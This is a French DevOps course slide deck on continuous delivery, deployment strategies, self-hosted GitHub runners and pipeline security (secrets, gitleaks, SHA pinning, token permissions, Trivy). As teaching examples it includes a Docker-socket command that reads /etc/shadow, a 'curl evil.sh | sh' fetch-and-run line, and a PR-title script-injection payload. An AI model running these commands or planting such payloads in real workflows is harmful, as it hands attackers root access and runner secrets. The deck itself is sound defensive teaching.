



<!-- _class: lead -->
# Jour 3 — Déploiement continu & sécurité du pipeline

**DevOps — Concepteur Développeur d'Applications**
CDA — ForEach Academy

Formateur : Fabrice Claeys

---

<!-- _class: small -->

## Programme de la journée

| Horaire | Contenu |
|---------|---------|
| 9h00-9h45 | **4.1 Livrer et déployer** — livraison continue vs déploiement continu, *build once deploy many*, environnements, 12-factor, tags |
| 9h45-10h15 | **4.2 Stratégies de déploiement** — recreate, rolling, blue/green, canary, feature flags, rollback, migrations |
| 10h15-10h40 | 🧪 **Exercice 3.1** — Choisir une stratégie pour 4 scénarios |
| 10h40-10h50 | *Pause* |
| 10h50-11h05 | **4.3 Outils et pratiques** — Environments, runner self-hosted, push vs pull, vrai serveur, PaaS, K8s · 🎬 démo |
| 11h05-11h25 | 🧪 **Exercice 3.2** — La configuration Nginx du proxy à corriger |
| 11h25-11h50 | **7.1 DevSecOps (1)** — secrets, supply chain, Trivy · 🎬 démo gitleaks + Trivy |
| 11h50-12h30 | 🧪 **Exercice 3.3** — Le secret caché dans l'historique Git |
| 13h30-14h30 | 🛠️ **TP étape 2, partie A** — déploiement manuel de la production |
| 14h30-16h00 | 🛠️ **TP étape 2, partie B** — pipeline de release (pause incluse) |
| 16h00-16h45 | 🛠️ **TP étape 2, partie C** — rollback, Dependabot |
| 16h45-17h00 | Débrief DORA, quiz, récap |

---

## Objectifs de la journée

À la fin de la journée, vous saurez :

- **Distinguer** livraison continue et déploiement continu, et **choisir** entre les deux
- **Construire** un pipeline qui produit **une** image et la promeut de staging à production
- **Choisir et justifier** une stratégie de déploiement (et sa migration de base)
- **Revenir en arrière** en une minute, et savoir quand préférer le *roll forward*
- **Sécuriser** le pipeline : secrets, dépendances, actions tierces, permissions, images

> Fil conducteur : on n'automatise que ce qu'on sait faire à la main, et la sécurité commence au premier pipeline.

---

## Où en est-on ?

| Hier (Jour 2) | Aujourd'hui (Jour 3) | Demain (Jour 4) |
|---|---|---|
| `ci.yml` : lint, tests unitaires + intégration, build | `release.yml` : images, scan, staging, production | staging en **IaC** (OpenTofu), monitoring |
| `main` protégée : rien n'y entre rouge | `main` est **toujours déployable** | on **voit** ce qui tourne |
| on sait que le code marche | on sait le **livrer** et le **reprendre** | on sait s'il **va bien** |

```
 plan ─ code ─ build ─ test ─▶ RELEASE ─ DEPLOY ─▶ operate ─ monitor
                  (J2)          (J3, aujourd'hui)       (J4)
```

---

<!-- _class: lead -->
# Bloc 4.1 — Livrer et déployer

---

## Le vendredi soir de La Fromagerie (souvenez-vous du Jour 1)

- Un développeur zippe le projet sur son poste, le dépose en FTP, lance les migrations à la main
- La « version » en prod ? Personne ne sait exactement laquelle
- Ça casse : on corrige **en prod**, directement, le samedi matin
- Résultat : on déploie le moins souvent possible… donc chaque déploiement est **énorme** et **risqué**

> Le cercle vicieux : « c'est risqué, donc on déploie rarement, donc c'est risqué ».
> DevOps l'inverse : « déployer souvent, petit, automatisé, réversible ».

---

<!-- _class: small -->

## Trois termes qu'on confond (à connaître par cœur)

| | **Intégration continue** | **Livraison continue** | **Déploiement continu** |
|---|---|---|---|
| Promesse | chaque changement est intégré et testé | chaque changement **pourrait** partir en prod | chaque changement **part** en prod |
| Dernière étape automatique | build + tests | déploiement en **staging**, artefact prêt | déploiement en **production** |
| Décision de mise en prod | — | **humaine** (un clic, une approbation) | **aucune** : le pipeline décide |
| Prérequis | tests automatisés | + environnements reproductibles, déploiement scripté | + confiance très élevée : tests, monitoring, rollback auto, feature flags |

> Le syllabus le demande explicitement : sachez dire **la différence** et **quand** choisir l'une ou l'autre.

---

<!-- _class: small -->

## Livraison continue ≠ déploiement continu : ce qui les sépare

```
                       livraison continue
  commit ─▶ CI ─▶ image ─▶ staging ─▶ [ humain : « on y va » ] ─▶ production
                       déploiement continu
  commit ─▶ CI ─▶ image ─▶ staging ─▶ (tests verts = on y va)  ─▶ production
```

- **Techniquement** : la même chaîne. Dans GitHub Actions, la différence tient en **une case** : *required reviewers* sur l'environment `production`
- **Organisationnellement** : qui porte la décision ? le product owner, l'astreinte, personne ?
- **Livraison continue** : contraintes métier (horaires, communication, réglementaire, client B2B qui valide)
- **Déploiement continu** : produit web, équipe mature, petites PR, monitoring et rollback automatiques

> Dans le TP : livraison continue (approbation). Retirer l'approbation = déploiement continu, sans changer une ligne de YAML.

---

## Ce que mesurent les équipes (DORA, rappel du Jour 1)

| Métrique | Ce qu'un pipeline de livraison change |
|---|---|
| **Fréquence de déploiement** | déployer devient un non-événement → on déploie plus souvent |
| **Lead time des changements** | du merge à la prod en minutes, pas en semaines |
| **Taux d'échec des changements** | petites releases + staging + smoke tests = moins de casse |
| **Temps de restauration** | rollback par tag en une minute |

- Les équipes « élite » déploient **à la demande**, plusieurs fois par jour, et restaurent en **moins d'une heure**
- Vitesse et stabilité **ne s'opposent pas** : c'est le principal enseignement des rapports DORA

> Ce soir, au débrief : vous mesurerez votre propre lead time.

---

## Build once, deploy many : l'artefact immuable

```
   ❌ on reconstruit pour chaque environnement           ✅ on construit une fois, on promeut
   git checkout v2 ─▶ build ─▶ staging                    git push ─▶ build ─▶ image:a1b2c3d
   git checkout v2 ─▶ build ─▶ production                                   ├─▶ staging   (a1b2c3d)
   (deux binaires différents !)                                             └─▶ production (a1b2c3d)
```

- Rebuilder = nouvelle résolution des dépendances, nouvelle image de base, autre machine… **ce que vous avez testé n'est pas ce que vous déployez**
- L'artefact (ici une **image Docker**) est **immuable** : on ne la modifie jamais, on en publie une nouvelle
- Ce qui change entre environnements : **uniquement la configuration**

> Conséquence directe : pas de `if (env === 'production')` qui change le comportement, pas de secret dans l'image.

---

<!-- _class: small -->

## Les environnements

| Environnement | Rôle | Données | Qui y accède |
|---|---|---|---|
| **dev** (local) | développer, déboguer | jetables | le développeur |
| **CI** | tester chaque commit | éphémères (service Postgres du job) | le pipeline |
| **staging** / pré-prod | valider **l'artefact** dans des conditions proches de la prod | réalistes, **jamais** les vraies données personnelles | l'équipe, la recette |
| **production** | servir les utilisateurs | réelles | utilisateurs ; équipe en lecture, très peu en écriture |

- La valeur du staging est sa **parité** avec la prod (même image, même type de config, même proxy idéalement)
- Chaque écart staging/prod est un bug qui passera le staging (exercice 3.2, question 2)

---

## TaskFlow : trois environnements sur un poste

| | dev | staging | production |
|---|---|---|---|
| Fichier | `compose.yaml` | `compose.staging.yaml` | `compose.prod.yaml` |
| Images | `build:` local | `ghcr.io/<vous>/taskflow-*:<sha>` | **le même** `<sha>` |
| Dossier | le dépôt | `~/taskflow-staging` | `~/taskflow-prod` |
| Accès | `http://localhost:8080` | `http://localhost:8081` | `https://taskflow.localhost` |
| Proxy / TLS | non | non (écart assumé) | Nginx, certificat auto-signé |
| Config | valeurs par défaut | `.env` du dossier | `.env` du dossier (autres secrets) |

> Un fichier par environnement : ils diffèrent par leur **structure** (proxy ou non), pas seulement par des valeurs.

---

<!-- _class: small -->

## 12-factor : la configuration dans l'environnement

*The Twelve-Factor App* (Heroku, 2011) : 12 règles pour des applications déployables partout. Celles du jour :

| Facteur | Règle | Dans TaskFlow |
|---|---|---|
| **III. Config** | la config est dans l'**environnement**, pas dans le code | `DATABASE_URL`, `APP_ENV`, `APP_VERSION` lus par `api/src/config.js` |
| **V. Build, release, run** | trois étapes strictement séparées | image (build) + `.env` (release) + `docker compose up` (run) |
| **VI. Processus** | sans état, les données sont ailleurs | l'API ne garde rien ; tout est dans Postgres (volume) |
| **IX. Jetable** | démarrage rapide, arrêt propre | `CMD ["node", ...]` reçoit `SIGTERM` |
| **X. Parité dev/prod** | réduire les écarts | mêmes images ; seul le proxy diffère |
| **XI. Logs** | flux sur la sortie standard | une ligne JSON par requête (`docker compose logs`) |

> Test simple : pourriez-vous rendre le dépôt public demain sans révéler un seul secret ? Si non, le facteur III est violé.

---

<!-- _class: small -->

## Registre d'images et tags

```
ghcr.io / alice / taskflow-api : a1b2c3d
└ registre └ propriétaire └ image └ tag
```

| Tag | Mutable ? | Usage |
|---|---|---|
| **SHA court** (`a1b2c3d`) | non (par convention, on ne le réécrit jamais) | **déployer**, rollback, traçabilité commit ↔ image |
| `latest` | **oui** : change à chaque build | confort humain, `docker run` rapide ; **jamais pour déployer** |
| SemVer (`v1.4.2`) | non (par convention) | releases publiques, produits versionnés |
| **digest** (`@sha256:9f86…`) | **non, garanti** (empreinte du contenu) | le plus strict : signature, SBOM, admission Kubernetes |

- `latest` en prod : « quelle version tourne ? » → personne ne sait ; un redémarrage peut changer la version
- `/health` de TaskFlow renvoie `version` : le SHA **réellement** en ligne

---

## 🎬 Ce qu'on va construire cet après-midi



---

<!-- _class: lead -->
# Bloc 4.2 — Stratégies de déploiement

---

## Le problème : remplacer v1 par v2 sans casser

Questions à se poser **avant** de choisir :

- Une coupure de quelques secondes est-elle **acceptable** pour le métier ?
- v1 et v2 peuvent-elles **tourner en même temps** (API, base, sessions, files de messages) ?
- A-t-on les **ressources** pour deux versions complètes ?
- Sait-on **mesurer** si v2 va bien (métriques, erreurs, métier) ?
- Comment revient-on en arrière, et **combien de temps** cela prend-il ?

---

## Quatre stratégies de base



---

## Recreate et rolling

**Recreate** : tout arrêter, tout redémarrer

- Simple, une seule version à la fois : aucune question de compatibilité
- Coupure : de quelques secondes (conteneurs) à quelques minutes (VM, migrations)
- C'est ce que fait `docker compose up -d` service par service : d'où `--wait` et le smoke test

**Rolling** (progressif) : remplacer les instances une par une

- Pas de coupure si l'on a plusieurs instances et un répartiteur de charge
- v1 et v2 **coexistent** pendant la bascule : l'API et la base doivent être compatibles
- Stratégie par défaut d'un `Deployment` Kubernetes (`maxSurge`, `maxUnavailable`)

---

## Blue/green

```
                  ┌─────────▶ blue  (v1)   ← trafic avant
  utilisateurs ─▶ routeur
                  └─────────▶ green (v2)   ← on la démarre, on la teste, puis on BASCULE
```

- Deux environnements complets ; on teste green **en conditions réelles** avant d'y envoyer le trafic
- Bascule et retour : **instantanés** (changer l'upstream du routeur, `nginx -s reload`)
- Coût : le double de ressources pendant la bascule
- Piège : la **base** est en général partagée → v1 et v2 doivent la comprendre toutes les deux

> Avec notre proxy : deux projets Compose (`taskflow-blue`, `taskflow-green`), `proxy_pass http://front-green:80;`, reload. C'est un bonus du TP.

---

## Canary

- La nouvelle version reçoit **une petite part** du trafic (1 %, 5 %…), on **compare** ses métriques à la version stable, on élargit par paliers
- Nom : le canari des mineurs, qui meurt avant que le grisou ne tue les hommes
- Exige : un routage pondéré (Nginx `split_clients`, *service mesh*, Argo Rollouts, CDN) et des **métriques par version**
- Peut être **automatisé** : promotion si taux d'erreur < seuil, retour sinon (*progressive delivery*)

| Signal typique | Seuil d'exemple |
|---|---|
| taux de réponses 5xx | > 1 % pendant 5 min → retour |
| latence p95 | > 1,5 × la version stable |
| métrique métier | conversion − 5 % |

---

## Feature flags : déployer n'est pas activer

```js
if (flags.isEnabled('nouveau-paiement', { userId })) {
  return nouveauTunnel(panier);
}
return ancienTunnel(panier);
```

- Le code est **en production, éteint** ; on l'allume pour l'équipe, puis 10 % des clients, puis tous
- Découple la **décision métier** (activer) de la **décision technique** (déployer)
- Permet le *trunk-based development* : on fusionne du code inachevé, désactivé
- Outils : Unleash, Flagsmith, OpenFeature (standard), LaunchDarkly (SaaS)
- Dette : un flag qui n'est jamais retiré = du code mort et des combinaisons à tester ; **date de fin** obligatoire

---

<!-- _class: small -->

## Rollback ou roll forward ?

| | **Rollback** | **Roll forward** |
|---|---|---|
| Geste | redéployer l'image précédente | corriger, livrer une nouvelle version |
| Délai | **minutes**, sans réfléchir | dépend de la correction (et du pipeline) |
| Quand | incident en cours, cause inconnue | cause comprise, correctif simple, ou rollback impossible |
| Prérequis | images versionnées, **migrations compatibles N-1** | pipeline rapide et fiable |
| Dans TaskFlow | `workflow_dispatch` avec `tag`, ou rollback **automatique** si le smoke test de prod échoue | `git revert` + PR + merge |

> Règle d'astreinte : d'abord **restaurer le service** (rollback), ensuite **comprendre** (post-mortem, Jour 4), enfin **corriger** (roll forward).

---

<!-- _class: small -->

## Migrations de base : le vrai piège du rollback

Le code revient en arrière en une minute. **La base, non.**

Renommer `date_rdv` en `debut` en une release :

- pendant la bascule, v1 (encore servie) lit `date_rdv` → **plante**
- après un rollback, v1 tourne sur une base qui n'a plus `date_rdv` → **plante**

**Expand / contract** (*parallel change*) : chaque release reste compatible avec la précédente

| Release | Base | Code |
|---|---|---|
| R1 *expand* | ajoute `debut` (nullable), recopie les données | écrit dans les **deux** colonnes, lit l'ancienne |
| R2 | — | lit `debut`, écrit encore les deux |
| R3 *contract* | supprime `date_rdv` | n'utilise plus que `debut` |

> Seule R3 est irréversible ; on ne la livre que quand plus aucune version ne lit l'ancienne colonne.

---

<!-- _class: small -->

## Smoke tests et healthchecks

| | **Healthcheck** (Docker) | **Smoke test** (pipeline) | **Monitoring** (Jour 4) |
|---|---|---|---|
| Qui | le daemon Docker, en continu | le job de déploiement, une fois | Prometheus, en continu |
| Question | « ce conteneur est-il vivant ? » | « **la version que je viens de déployer** répond-elle ? » | « le service va-t-il bien, pour les utilisateurs ? » |
| Effet | `unhealthy`, dépendances bloquées, `--wait` échoue | job rouge, **rollback** auto | alerte, astreinte |

`deploy/smoke-test.sh` vérifie trois choses sur `/health` :

```bash
jq -e --arg v "$EXPECTED" '.status == "ok" and .db == "up" and ($v == "" or .version == $v)'
```

> Sans la version : l'**ancienne** version qui répond encore donne un faux vert.

---

## 🧪 Exercice 3.1 — Choisir une stratégie

`exercices/jour3/01-strategie-deploiement.md` — **25 min**, en binôme

| Scénario | Contexte en une ligne |
|---|---|
| A | outil interne de la mairie, un seul serveur, inutilisé la nuit |
| B | boutique en ligne, nouveau tunnel de paiement avant les soldes |
| C | API médicale publique 99,9 %, renommage de colonne |
| D | TaskFlow : staging vert mais mémoire × 3 |

Pour chacun : stratégie, 2 arguments, ce que vous refusez, signal de succès, plan de retour arrière.

> On évalue la **justification**, pas « la » bonne réponse.

---

<!-- _class: lead -->
# Bloc 4.3 — Outils et pratiques

---

<!-- _class: small -->

## GitHub Environments

*Settings > Environments* : une cible de déploiement nommée, avec ses règles.

| Fonction | Usage dans TaskFlow |
|---|---|
| **Required reviewers** (jusqu'à 6) | `production` : un humain approuve → **livraison continue** |
| *Prevent self-review* | l'auteur du merge ne peut pas approuver seul |
| **Deployment branches and tags** | `production` : seulement depuis `main` |
| *Wait timer* | délai avant déploiement (laisser le temps d'annuler) |
| **Secrets et variables d'environment** | lisibles seulement par les jobs de cet environment, **après** approbation |
| Historique *Deployments* | qui a déployé quoi, quand, avec l'URL |

```yaml
deploy-production:
  environment:
    name: production
    url: https://taskflow.localhost
```

---

## Le problème : GitHub ne voit pas votre poste

- Les runners `ubuntu-latest` sont des VM jetables **chez GitHub** : ils ne joignent ni `localhost` ni votre réseau
- Deux familles de solutions :



---

<!-- _class: small -->

## Le runner self-hosted du lab

```yaml
# ressources/lab/runner/compose.yaml (extrait)
services:
  runner:
    image: taskflow-cda-runner:latest     # agent GitHub + docker CLI + compose + tofu
    environment:
      LABELS: self-hosted,lab
      PROD_DIR: ${PROD_DIR}
      STAGING_DIR: ${STAGING_DIR}
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock   # pilote le Docker DU POSTE
      - ${PROD_DIR}:${PROD_DIR}                     # même chemin dedans et dehors
      - ${STAGING_DIR}:${STAGING_DIR}
    extra_hosts:
      - "host.docker.internal:host-gateway"         # pour les smoke tests
```

- Il **va chercher** ses jobs (HTTPS sortant) : rien à ouvrir sur le poste
- `runs-on: [self-hosted, lab]` : seuls les jobs qui demandent ces labels lui arrivent
- Pourquoi le **même chemin** ? C'est le daemon du **poste** qui résout `./certs`, `./nginx/...`

---

<!-- _class: small -->

## Le socket Docker, ce sont les clés de la maison

```bash
# depuis n'importe quel job qui tourne sur ce runner :
docker run --rm -v /:/hote alpine cat /hote/etc/shadow
```

- Accès au socket Docker = **root sur la machine** (et sur la prod qu'elle héberge)
- Donc : **quiconque fait exécuter un workflow sur ce runner possède la machine**

| Garde-fou | Où |
|---|---|
| runner rattaché à **un seul** dépôt, à vous | enregistrement du runner |
| approbation obligatoire des workflows de **forks** | *Settings > Actions > General* |
| jobs self-hosted uniquement sur `push` de `main` et `workflow_dispatch`, jamais sur `pull_request` | `release.yml` |
| `environment: production` avec approbation et branche `main` | Environments |
| `docker logout` en fin de job (runner persistant) | `release.yml` |

> En entreprise : runners **éphémères** (un job puis destruction), isolés, sans socket ou derrière un proxy de socket.

---

## 🎬 Démo — démarrer le runner

`ressources/lab/runner/README.md`

1. *Settings > Actions > Runners > New self-hosted runner* : copier le **jeton** (valable 1 h)
2. `.env` : `REPO_URL`, `RUNNER_TOKEN`, `PROD_DIR`, `STAGING_DIR` (chemins absolus)
3. `docker compose up -d --build` puis `docker compose logs -f runner` → `Listening for Jobs`
4. Pastille verte **Idle** dans GitHub
5. `docker compose exec runner docker ps` : **vos** conteneurs

> Question à la salle : que se passe-t-il si quelqu'un ouvre une PR depuis un fork avec `runs-on: [self-hosted, lab]` et `run: curl evil.sh | sh` ?

---

<!-- _class: small -->

## Sur un vrai serveur : SSH (push)

```yaml
deploy-production:
  runs-on: ubuntu-latest
  environment: production
  steps:
    - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
    - env: { SSH_KEY: "${{ secrets.SSH_PRIVATE_KEY }}", KNOWN_HOSTS: "${{ secrets.SSH_KNOWN_HOSTS }}" }
      run: |
        install -m 700 -d ~/.ssh
        printf '%s\n' "$SSH_KEY" > ~/.ssh/id_ed25519 && chmod 600 ~/.ssh/id_ed25519
        printf '%s\n' "$KNOWN_HOSTS" > ~/.ssh/known_hosts
    - env: { HOST: "${{ vars.SERVER_HOST }}", TAG: "${{ needs.prepare.outputs.tag }}" }
      run: |
        scp compose.prod.yaml deploy/*.sh "deploy@$HOST:/srv/taskflow/"
        ssh "deploy@$HOST" "cd /srv/taskflow && ./deploy.sh $TAG"
```

- Utilisateur `deploy` non-root, clé dédiée (une par environnement), `PasswordAuthentication no`, pare-feu
- `known_hosts` fourni : pas de `ssh-keyscan` aveugle (attaque de l'homme du milieu)

🎬 Démo : `demos/demo-ssh-serveur/` (clé, `authorized_keys`, durcissement, `scp`, commande distante)

---

<!-- _class: small -->

## PaaS, Kubernetes, GitOps : où va le déploiement ensuite

| Plateforme | Ce qu'on livre | Qui déploie | Stratégies disponibles |
|---|---|---|---|
| **PaaS** (Render, Railway, Fly.io, Scalingo, Clever Cloud, Heroku) | une image ou le code | la plateforme (`git push` ou API) | rolling, parfois blue/green ; rollback en un clic |
| **Kubernetes** | des manifestes (`Deployment`, `Service`, `Ingress`) | `kubectl apply` / Helm depuis le CI (push) | rolling natif ; canary/blue-green avec Argo Rollouts |
| **GitOps** (ArgoCD, Flux) | un commit dans un dépôt de configuration | un **agent dans le cluster** qui synchronise (pull) | celles de K8s ; rollback = `git revert` |
| **Watchtower** (Docker) | une nouvelle image dans le registre | un conteneur qui surveille et redémarre (pull) | recreate |

> Les concepts du jour (artefact immuable, environnements, approbation, smoke test, rollback) sont **les mêmes** partout.

---

## Le reverse proxy de la production

```
navigateur ──https 443──▶ proxy (Nginx) ──http──▶ front:80 ──/api, /health──▶ api:3000 ──▶ db
           ──http 80────▶ proxy : 301 vers https
```

- Seul `proxy` publie des ports : une seule porte, TLS terminé à un seul endroit
- Le proxy résout `front` au démarrage → `deploy.sh` fait `nginx -t` puis `nginx -s reload` après chaque déploiement
- `X-Forwarded-For` / `X-Forwarded-Proto` : l'application connaît le vrai client et le vrai protocole
- Certificat : auto-signé dans le lab (avec `host.docker.internal` dans le SAN pour un smoke test **vérifié**) ; Let's Encrypt en vrai

---

## 🧪 Exercice 3.2 — Nginx à corriger

`exercices/jour3/02-nginx-a-corriger.md` — **20 min**

- Labo : `nginx-labo/` (front factice + proxy), ports **8880** / **8444**
- 7 problèmes : 2 bloquent le démarrage, 1 casse le service, 4 que `nginx -t` ne verra **jamais**
- Méthode : `logs` → `nginx -t` dans un conteneur jetable → corriger → `curl` → `nginx -s reload`
- Livrable : le tableau ligne / problème / conséquence / correction **et** le commentaire de revue

---

<!-- _class: lead -->
# Bloc 7.1 — DevSecOps (1) : sécuriser le pipeline

---

## Shift-left : la sécurité dès le premier pipeline

```
 plan ─── code ─────── build ─────────── test ─── release ─── deploy ─── operate
          gitleaks     npm audit          (J5 :     Trivy       approbation  monitoring
          pre-commit   Dependabot         SAST,     permissions  env.        (J4)
                       Trivy              DAST)     SHA épinglés
            └────────── aujourd'hui ───────────────────────┘
```

- Plus un problème est trouvé **tôt**, moins il coûte (un secret jamais commité n'a pas à être révoqué)
- Le pipeline lui-même est une **cible** : il a accès au code, aux secrets, au registre et à la production
- Aujourd'hui : **secrets**, **supply chain**, **images**. Jour 5 : SAST, DAST, OWASP Top 10

---

## Secrets : les règles

1. **Jamais** dans Git, même « juste pour tester », même dans un dépôt privé
2. `.env` hors Git (`.gitignore`), **`.env.example`** versionné sans valeurs réelles
3. En CI : **secrets GitHub** (dépôt ou, mieux, **environment**) ; ils sont masqués dans les logs
4. Préférer les identifiants **éphémères** : `GITHUB_TOKEN` (expire en fin de job), OIDC vers le cloud (pas de clé longue durée)
5. Un secret **par environnement** : une fuite du staging n'ouvre pas la prod
6. **Rotation** : périodique, et **immédiate** en cas d'exposition
7. Les détecter **avant** le commit (pre-commit), **dans** le CI, et côté serveur (*push protection* GitHub)

> Dans TaskFlow, le pipeline n'a besoin d'**aucun** secret créé à la main : `GITHUB_TOKEN` suffit, et les `.env` ne quittent jamais les dossiers des environnements.

---

<!-- _class: small -->

## « Je l'ai supprimé dans le commit suivant »

```bash
git add .env && git commit -m "config"      # le blob du .env est dans l'historique
git rm .env  && git commit -m "oups"        # un NOUVEAU commit ; l'ancien n'a pas bougé
git log -p --all -S 'ghp_'                   # ... et le voilà
```

- Git n'efface jamais : il **ajoute**. Le blob reste référencé par l'ancien commit
- Une fois **poussé** : forks, clones des collègues, caches, runners de CI, robots qui scannent GitHub en continu
- Donc, dans l'ordre :

| # | Action |
|---|---|
| 1 | **Révoquer / faire tourner** le secret (la seule action qui neutralise la fuite) |
| 2 | Vérifier les journaux d'accès : a-t-il servi ? |
| 3 | Purger l'historique (`git filter-repo` ou BFG), pousser en force, faire re-cloner |
| 4 | Empêcher la récidive (pre-commit, CI, push protection) |

---

<!-- _class: small -->

## gitleaks

Détecteur de secrets : ~200 règles (jetons GitHub, AWS, Slack, Stripe, clés privées…) + entropie.

```bash
# tout l'historique (CI, audit)
docker run --rm -v "$PWD":/repo docker.io/zricethezav/gitleaks:v8.30.1 git /repo -v --redact
# seulement ce qui est indexé (hook pre-commit)
docker run --rm -v "$PWD":/repo docker.io/zricethezav/gitleaks:v8.30.1 git /repo --pre-commit --staged
```

```yaml
# .pre-commit-config.yaml (TaskFlow)
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.30.1
    hooks:
      - id: gitleaks
```

- Code de sortie **1** si fuite : bloque le commit ou le job
- Faux positifs : `.gitleaksignore` (empreinte) ou `.gitleaks.toml` (règles), à **justifier** (Jour 5)
- Piège : `0 commits scanned` = l'outil n'a rien lu ; une absence d'alerte n'est une preuve que si le scan a eu lieu

---

<!-- _class: small -->

## Supply chain : vous exécutez le code des autres

Ce qui entre dans votre build sans que vous l'ayez écrit :

| Composant | Exemple de risque | Contrôle |
|---|---|---|
| dépendances npm | paquet malveillant (`event-stream`, 2018), CVE dans une lib | `npm ci` + lockfile, **`npm audit`**, **Dependabot** |
| images de base | CVE dans `openssl`, `busybox`… | **Trivy**, mise à jour de `FROM` (Dependabot `docker`) |
| actions GitHub | tag réécrit pour voler les secrets | **épinglage par SHA**, permissions minimales |
| outils du runner | binaire compromis | versions épinglées, empreintes vérifiées (Dockerfile du runner) |

```bash
npm audit --audit-level=high      # échoue si une vulnérabilité HIGH ou CRITICAL est connue
npm audit fix                     # met à jour dans les plages autorisées par package.json
```

---

<!-- _class: small -->

## Cas réel : `aquasecurity/trivy-action`, mars 2026

- Un compte de service compromis réécrit **76 des 77 tags** de l'action (et tous ceux de `setup-trivy`)
- Le code injecté vole les secrets des runners qui l'exécutent (CVE-2026-33634, critique)
- Toute équipe qui écrivait `uses: aquasecurity/trivy-action@0.28.0` a exécuté le code de l'attaquant **sans changer une ligne**
- Les équipes qui avaient **épinglé par SHA** n'ont rien exécuté de nouveau

```yaml
# ❌ un tag est un pointeur déplaçable
- uses: aquasecurity/trivy-action@0.28.0
# ✅ un SHA de commit désigne un contenu précis ; le commentaire garde la lisibilité
- uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25 # v0.36.0
```

> L'outil de **sécurité** était le vecteur d'attaque. Personne n'est hors du périmètre.

---

## Épingler par SHA sans y passer sa vie

```bash
git ls-remote https://github.com/aquasecurity/trivy-action 'refs/tags/v0.36.0^{}' 'refs/tags/v0.36.0'
# ed142fd0...  refs/tags/v0.36.0^{}    ← le COMMIT (tag annoté : prendre cette ligne)
# a9c7b0f0...  refs/tags/v0.36.0       ← l'objet tag
```

```yaml
# .github/dependabot.yml
  - package-ecosystem: github-actions
    directory: "/"
    schedule: { interval: weekly }
```

- Dependabot met à jour **le SHA et le commentaire** `# vX.Y.Z` dans une PR, qui passe par la CI et la revue
- Avant de fusionner : release notes, *immutable releases*, quelques jours de recul
- Actions **officielles** (`actions/*`) : risque plus faible, mais la règle reste la même

---

## Permissions minimales du `GITHUB_TOKEN`

```yaml
permissions: {}            # niveau workflow : rien

jobs:
  images:
    permissions:
      contents: read       # cloner
      packages: write      # pousser sur ghcr.io
  deploy-staging:
    permissions:
      contents: read
      packages: read       # docker pull des images privées
```

- Par défaut, selon les réglages du dépôt, le jeton peut avoir **l'écriture sur tout** (code, releases, issues…)
- Un step compromis hérite de **tous** les droits du jeton : moins de droits = moins de dégâts
- Déclarer par **job** : chacun reçoit le strict nécessaire

---

## Injection de script dans un workflow

```yaml
# ❌ le titre de la PR est INSÉRÉ dans le script avant son exécution
- run: echo "PR : ${{ github.event.pull_request.title }}"
#   titre = '"; curl https://evil.sh | sh; echo "'   → exécuté sur votre runner

# ✅ passer par une variable d'environnement : c'est une donnée, plus du code
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR : $PR_TITLE"
```

- Concerne tout ce qu'un tiers contrôle : titres, corps, noms de branche, messages de commit, **inputs** de `workflow_dispatch`
- `release.yml` valide aussi le tag de rollback : `^[0-9a-f]{7}$`
- actionlint détecte ce motif ; `zizmor` va plus loin (analyse de sécurité des workflows)

---

## Trivy : scanner les images

```bash
trivy image --severity CRITICAL --ignore-unfixed --exit-code 1 ghcr.io/alice/taskflow-front:a1b2c3d
```

| Option | Rôle |
|---|---|
| `--severity CRITICAL` | ne remonter que ce niveau (ou `HIGH,CRITICAL`) |
| `--ignore-unfixed` | ignorer ce qu'**aucun** correctif ne règle encore (décision à documenter) |
